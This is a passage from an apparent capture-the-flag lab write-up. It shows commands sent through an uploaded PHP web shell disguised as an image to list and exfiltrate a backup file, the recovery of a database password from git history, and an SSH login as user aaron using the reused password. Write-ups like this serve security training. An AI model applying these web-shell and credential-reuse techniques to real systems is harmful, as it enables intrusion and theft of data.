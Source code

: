 ```
$ curl -s -XPOST 'http://10.129.188.245/image.php?img=images/uploads/14825a2e927efad4b527cfdfdc212129_shell.php.jpg' -d '1=ls -al /opt'
total 624
drwxr-xr-x  2 root root   4096 Dec  2 11:19 .
drwxr-xr-x 24 root root   4096 Nov 29 01:34 ..
-rw-r--r--  1 root root 627851 Jul 20 22:36 source-files-backup.zip
```

After transfering and unziping the backup on our machine we see it contains a git repository.

```
$ curl -s -XPOST 'http://10.129.188.245/image.php?img=images/uploads/14825a2e927efad4b527cfdfdc212129_shell.php.jpg' -d '1=base64 -w0 /opt/source-files-backup.zip' | base64 -d > source-files-backup.zip
```

There are only two commits in the repo. Diffing them we see another database password.

```
$ git log
commit 16de2698b5b122c93461298eab730d00273bd83e (HEAD -> master)
Author: grumpy <grumpy@localhost.com>
Date:   Tue Jul 20 22:34:13 2021 +0000

    db_conn updated

commit e4e214696159a25c69812571c8214d2bf8736a3f
Author: grumpy <grumpy@localhost.com>
Date:   Tue Jul 20 22:33:54 2021 +0000

    init
```

```
$ git diff 16de2698b5b122c93461298eab730d00273bd83e e4e214696159a25c69812571c8214d2bf8736a3f
diff --git a/db_conn.php b/db_conn.php
index 5397ffa..f1c9217 100644
--- a/db_conn.php
+++ b/db_conn.php
@@ -1,2 +1,2 @@
 <?php
-$pdo = new PDO('mysql:host=localhost;dbname=app', 'root', '4_V3Ry_l0000n9_p422w0rd');
+$pdo = new PDO('mysql:host=localhost;dbname=app', 'root', 'S3cr3t_unGu3ss4bl3_p422w0Rd');
```

Testing the older password with our earlier found user `aaron` against ssh we are able to log into the machine and grab the user flag.

```
$ ssh aaron@10.129.189.14
The authenticity of host '10.129.189.14 (10.129.189.14)' can't be established.
ECDSA key fingerprint is SHA256:w5P4pFdNqpvCcxxisM5OCJz7a6chyDUrd1JQ14k5smY.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.129.189.14' (ECDSA) to the list of known hosts.
aaron@10.129.189.14's password:
Welcome to Ubuntu 18.04.6 LTS (GNU/Linux 4.15.0-147-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Sat Dec 11 23:49:21 UTC 2021

  System load:  0.07              Processes:           169
  Usage of /:   48.7% of 4.85GB   Users logged in:     0
  Memory usage: 10%               IP address for eth0: 10.129.189.14
  Swap usage:   0%
```
